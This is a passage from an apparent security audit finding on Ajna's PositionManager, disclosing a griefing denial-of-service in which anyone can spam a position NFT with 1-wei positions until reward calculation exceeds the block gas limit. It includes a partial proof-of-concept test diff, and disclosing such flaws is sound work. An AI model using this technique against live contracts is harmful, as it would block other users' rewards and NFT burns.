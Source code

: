 Therefore, the PositionManager.getPositionIndexesFiltered(tokenId_) method might exceed the block gas limit when iterating the positionIndexes[tokenId_] storage array. However, the RewardsManager.calculateRewards(…) and RewardsManager._calculateAndClaimRewards(…) methods rely on the aforementioned method to succeed in order to calculate and pay rewards.

All in all, a griefer can spam anyone’s position NFT with insignificant positions until the rewards mechanism fails for the NFT owner due to DoS (gas limit). Side note: A position NFT also cannot be burned as long as such insignificant positions are attached to it, see PositionManager.burn(…).
Proof of Concept

The following diff is based on the existing test case testMemorializePositions in PositionManager.t.sol and demonstrates that insignificant positions can be attached by anyone.

diff --git a/ajna-core/tests/forge/unit/PositionManager.t.sol b/ajna-core/tests/forge/unit/PositionManager.t.sol
index bf3aa40..56c85d1 100644
--- a/ajna-core/tests/forge/unit/PositionManager.t.sol
+++ b/ajna-core/tests/forge/unit/PositionManager.t.sol
@@ -122,6 +122,7 @@ contract PositionManagerERC20PoolTest is PositionManagerERC20PoolHelperContract
      */
     function testMemorializePositions() external {
         address testAddress = makeAddr("testAddress");
+        address otherAddress = makeAddr("otherAddress");
         uint256 mintAmount  = 10000 * 1e18;

         _mintQuoteAndApproveManagerTokens(testAddress, mintAmount);
@@ -134,17 +135,17 @@ contract PositionManagerERC20PoolTest is PositionManagerERC20PoolHelperContract

         _addInitialLiquidity({
             from:   testAddress,
-            amount: 3_000 * 1e18,
+            amount: 1, //3_000 * 1e18,
             index:  indexes[0]
         });
         _addInitialLiquidity({
             from:   testAddress,
-            amount: 3_000 * 1e18,
+            amount: 1, //3_000 * 1e18,
             index:  indexes[1]
         });
         _addInitialLiquidity({
             from:   testAddress,
-            amount: 3_000 * 1e18,
+            amount: 1, // 3_000 * 1e18,
             index:  indexes[2]
         });

@@ -165,17 +166,20 @@ contract PositionManagerERC20PoolTest is PositionManagerERC20PoolHelperContract

         // allow position manager to take ownership of the position
         uint256[] memory amounts = new uint256[](3);
-        amounts[0] = 3_000 * 1e18;
-        amounts[1] = 3_000 * 1e18;
-        amounts[2] = 3_000 * 1e18;
+        amounts[0] = 1; //3_000 * 1e18;
+        amounts[1] = 1; //3_000 * 1e18;
+        amounts[2] = 1; //3_000 * 1e18;
         _pool.increaseLPAllowance(address(_positionManager), indexes, amounts);

